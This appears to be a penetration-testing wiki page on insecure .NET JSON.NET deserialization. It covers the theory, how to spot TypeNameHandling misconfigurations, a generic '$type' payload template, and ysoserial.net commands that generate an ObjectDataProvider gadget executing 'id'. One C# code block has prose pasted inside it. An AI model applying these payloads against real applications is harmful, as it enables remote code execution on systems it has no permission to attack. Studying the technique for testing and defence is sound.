 # .NET Deserialization

## Theory

Insecure deserialization is a vulnerability that can affect applications built using the .NET framework. They occurs when the deserialization process is not properly secured and validated, allowing attackers to exploit it and execute arbitrary code or perform other malicious activities.

## Practice

### JSON.NET Deserialization

In .NET application that uses JSON.net (Newtonsoft library), we can inject arbitrary code or read local files by abusing JSON deserialization objects.

{% tabs %}
{% tab title="Enumerate" %}
To decompile a .NET application you can use [dnSpy](https://github.com/dnSpy/dnSpy) on windows or [AvaloniaILSpy](https://github.com/icsharpcode/AvaloniaILSpy) on Linux

If the application have the [TypeNameHandling](https://www.newtonsoft.com/json/help/html/T\_Newtonsoft\_Json\_TypeNameHandling.htm) not being set to `None` and deserialize a parameter without proper validation, it is vulnerable.

```csharp
json = JsonConvert.DeserializeObject<Example>(json);We can give the Json value to the “JsonConvert.DeserializeObject(json)” with a reserved key ($type).
The format is as follow. The value of $type is a string that contains the assembly-qualified name of the .NET type to be deserialized.
```

{% hint style="info" %}
In the previous code, `Example` is the class to what json data will be converted (deserialized)
{% endhint %}
{% endtab %}

{% tab title="Payloads" %}
We can give the Json value to the “JsonConvert.DeserializeObject(json)” with a reserved key (**`$type`**).\
The format is as follow. The value of **`$type`** is a string that contains the assembly-qualified name of the .NET type to be deserialized.

```json
{
	"$type": "<namespace>.<class>, <assembly>",
	"<method_name>": "<attribute>"
}
```
{% endtab %}

{% tab title="Tools" %}
We can use [ysoserial.net](https://github.com/pwntester/ysoserial.net) (windows) to generate payloads.&#x20;

```powershell
#Raw output
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "id"

#Base64 output
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "id" -o base64
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://book.hacktricks.xyz/pentesting-web/deserialization" %}

{% embed url="https://exploit-notes.hdks.org/exploit/web/security-risk/json-net-deserialization/" %}
